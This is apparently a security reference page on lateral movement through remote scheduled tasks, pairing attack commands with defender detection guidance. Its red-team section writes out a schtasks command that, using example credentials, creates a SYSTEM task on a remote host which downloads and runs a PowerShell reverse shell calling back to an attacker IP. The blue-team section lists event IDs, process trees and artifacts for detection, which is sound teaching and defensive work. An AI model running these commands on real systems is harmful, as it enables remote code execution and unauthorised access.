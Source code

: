 # Scheduled Tasks

## Requirement

| Subject   | Value                         |
| --------- | ----------------------------- |
| Port      | 445                           |
| Authority | Administrators, Domain Admins |
| Service   | -                             |

## <mark style="color:red;">RedTeam</mark>

### Schtasks

```powershell
# Create 'Evil' Scheduled Task on 'Wakanda-WrkStn' host with 'marvel\panther' account and 'WakandaForever!' password to execute reverse shell (powershell) to connect back to the attacker host (IP:10.0.77.1, Port:8888)
schtasks /create /SC Weekly /RU "NT Authority\SYSTEM" /TN "Evil" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1''');Invoke-PowerShellTcp -Reverse -IPAddress 10.0.77.1 -Port 8888'" /S Wakanda-WrkStn /u marvel\panther /p WakandaForever!

# Force to run 'Evil' Scheduled Task
schtasks /Run /TN "Evil" /S Wakanda-WrkStn /u marvel\panther /p WakandaForever!
```

## <mark style="color:blue;">BlueTeam</mark>

### Process tree (target host)

* svchost.exe <mark style="color:blue;">(</mark>-k netsvcs -p)
  * powershell.exe

### Event Logs (source host)

| Source        | Event ID                                               | Condition                                                                                                                 | Focus On                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| ------------- | ------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Security.evtx | 4648: A logon was attempted using explicit credentials | <p>Process Target Server\Additional Information == host*<br>AND <br>Process Information\Process Name == *schtasks.exe</p> | <p><strong>Target IP</strong><br><strong></strong>(Network Information\Network Address)<br><br><strong>Target Server Name</strong><br><strong></strong>(Target Server\Target Server Name)</p>                                                                                                                                                                                                                                                                                                                        |
| Security.evtx | 4688: A new process has been created                   | Process Information\New Process Name == \*schtasks.exe AND Process Information\Process Command Line == \*/s \*            | <p><strong>Parent Process ID</strong><br><strong></strong>(Process Information\Creator Process ID)<br><br><strong>Parent Process</strong><br><strong></strong>(Process Information\Creator Process Name)<br><br><strong>Process ID</strong><br><strong></strong>(Process Information\New Process ID)<br><br><strong>Process Name</strong><br><strong></strong>(Process Information\New Process Name)<br><br><strong>Process Command Line</strong><br><strong></strong>(Process Information\Process Command Line)</p> |

### Event Logs (target host)

| Source                                            | Event ID                                    | Condition                             | Focus On                                                                                                                                                                                                                                                  |
| ------------------------------------------------- | ------------------------------------------- | ------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Security.evtx                                     | 4624: An account was successfully logged on | Logon Type == 3                       | <p><strong>Source IP</strong><br><strong></strong>(Network Information\Source Network Address)<br><br><strong>Account Domain</strong><br><strong></strong>(New Logon\Account Domain)<br><br><strong>Account Name</strong><br>(New Logon\Account Name)</p> |
| Security.evtx                                     | 4688: A new process has been created        | Creator Process Name == \*svchost.exe | <p><strong>Process Name</strong><br><strong></strong>(Process Information\New Process Name Process)<br><br><strong>Command Line</strong><br><strong></strong>(Information\Process Command Line)</p>                                                       |
| Security.evtx                                     | 4698: A scheduled task was created          | -                                     | <p><strong>Account Domain</strong><br><strong></strong>(Subject\Account Domain)<br><br><strong>Account Name</strong><br><strong></strong>(Subject\Account Name)<br><br><strong>Tasks Information</strong><br>(Task Information\Task Content)</p>          |
| Security.evtx                                     | 4702: A scheduled task was updated          | -                                     | <p><strong>Account Domain</strong><br><strong></strong>(Subject\Account Domain)<br><br><strong>Account Name</strong><br><strong></strong>(Subject\Account Name)<br><br><strong>Tasks Information</strong><br>(Task Information\Task Content)</p>          |
| Security.evtx                                     | 4699: A scheduled task was deleted          | -                                     | <p><strong>Account Domain</strong><br><strong></strong>(Subject\Account Domain)<br><br><strong>Account Name</strong><br><strong></strong>(Subject\Account Name)<br><br><strong>Tasks Information</strong><br>(Task Information\Task Content)</p>          |
| Microsoft-Windows-TaskScheduler%4Operational.evtx | 106: A scheduled task was created           | -                                     | All                                                                                                                                                                                                                                                       |
| Microsoft-Windows-TaskScheduler%4Operational.evtx | 140: A scheduled task was updated           | -                                     | All                                                                                                                                                                                                                                                       |
| Microsoft-Windows-TaskScheduler%4Operational.evtx | 141: A scheduled task was deleted           | -                                     | All                                                                                                                                                                                                                                                       |
| Microsoft-Windows-TaskScheduler%4Operational.evtx | 200/201: A scheduled task executed          | -                                     | All                                                                                                                                                                                                                                                       |

### Artifacts

| Type     | Location                                                                                            |
| -------- | --------------------------------------------------------------------------------------------------- |
| File     | C:\Windows\System32\Tasks                                                                           |
| Registry | Computer\HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks |
| Registry | Computer\HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree  |
